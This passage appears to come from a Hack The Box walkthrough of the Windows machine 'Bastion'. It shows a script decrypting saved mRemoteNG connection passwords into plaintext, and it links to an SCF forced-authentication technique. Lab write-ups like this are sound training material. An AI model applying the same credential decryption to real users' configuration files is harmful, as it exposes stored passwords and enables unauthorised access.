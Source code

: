 ![Desktop View](/assets/img/htb/machines/windows/easy/bastion/confConfs.png)

Here we go!

```bash
$ python3 mremoteng_decrypt.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Password: bureaulampje
$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

![Desktop View](/assets/img/htb/machines/windows/easy/bastion/admin.png)

___

## Useful links

- [Execution via .SCF](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-scf)
- [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)


